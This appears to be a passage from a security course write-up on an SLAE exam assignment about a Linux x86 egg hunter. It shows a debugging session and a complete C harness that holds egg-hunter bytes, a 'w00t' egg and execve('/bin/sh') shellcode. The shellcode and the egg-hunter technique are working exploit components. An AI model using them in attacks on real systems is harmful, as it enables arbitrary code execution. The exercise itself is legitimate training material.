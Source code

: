 **_Running our Shellcode_**

```bash
root@kali:~/courses/slae/exam# gcc shellcode.c -o shellcode

root@kali:~/courses/slae/exam/assignment3# ./shellcode
Egg Hunter Length: 44
Egg + Shellcode Length:  36
root@kali:~/courses/slae/exam/assignment3#
```

Wait what?? Why did we not get our shell? This took a little gdb magic to figure out...

![gdb finds wrong instructions]("gdb-assignment3.png")

If we look closely, we notice that our instructions in our egg hunter are wrong. Specifically, starting with this line:

`cmp    DWORD PTR [edx+0x4],0x75303077`

Looking back in our shellcode.c file, we indeed notice that there is a 0x74 byte missing. Going back and running `objdump -d assignment3 -M intel` will show us where to place it. It turns out the greppage I was using was not grabbing bytes if there were more than 6 on a line. Oops.

Fixing that allowed our egg hunter to work wondefully, and we were able to get our shell. Below is the final c code used to launch our egg hunter.

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

// Hunting for w00tw00t
unsigned char eggHunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x31\xc0\xb0\x21\xcd\x80"
"\x3c\xf2\x74\xed\x81\x3a\x77\x30\x30\x74\x75\xea\x81\x7a\x04\x77\x30\x30\x74"
"\x75\xe1\x83\xc2\x08\xff\xe2";

unsigned char egg[] = "\x77\x30\x30\x74"; // w00t

unsigned char shellcode[] = \ // execve("/bin/sh", NULL, NULL);
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {
  int eggSize = strlen(egg);
  int shellcodeSize = strlen(shellcode);
  unsigned char* eggie = malloc((eggSize * 2) + shellcodeSize);

  memcpy(eggie, egg, eggSize);
  memcpy(&eggie[eggSize], egg, eggSize);
  memcpy(&eggie[eggSize * 2], shellcode, shellcodeSize);

  printf("Egg Hunter Length: %d\n", strlen(eggHunter));
  printf("Egg + Shellcode Length:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())eggHunter;

  ret();
}
```
